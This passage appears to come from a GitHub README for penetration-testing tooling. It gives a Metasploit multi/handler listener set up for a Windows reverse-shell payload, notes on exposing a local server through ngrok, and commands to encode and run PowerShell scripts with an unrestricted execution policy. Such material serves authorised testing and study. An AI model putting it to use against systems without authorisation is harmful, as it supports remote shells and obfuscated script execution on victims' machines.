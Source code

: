 <p id="multi-handler"/>

### multi/handler

Set up a `multi/handler` module (change the PAYLOAD, LHOST and LPORT as needed):

```fundamental
msfconsole -q

use exploit/multi/handler

set PAYLOAD windows/shell_reverse_tcp

set LHOST 127.0.0.1

set LPORT 9000

exploit
```

<p id="ngrok"/>

### ngrok

Use [ngrok](https://ngrok.com/download) to give your local web server a public address (if required) but do not expose the web server for too long if it is not properly hardened due to security concerns.

I would also advise you not to transfer any sensitive data over it, just in case.

<p id="powershell-encoded-command"/>

### PowerShell Encoded Command

To generate a PowerShell encoded command from a PowerShell script, run the following PowerShell command:

```pwsh
[Convert]::ToBase64String([Text.Encoding]::Unicode.GetBytes([IO.File]::ReadAllText($script)))
```

To run the encoded command, run the following command from either PowerShell or Command Prompt:

```pwsh
PowerShell -ExecutionPolicy Unrestricted -NoProfile -EncodedCommand $encoded
```

To decode a PowerShell encoded command, run the following PowerShell command:

```pwsh
[Text.Encoding]::Unicode.GetString([Convert]::FromBase64String($command))
```
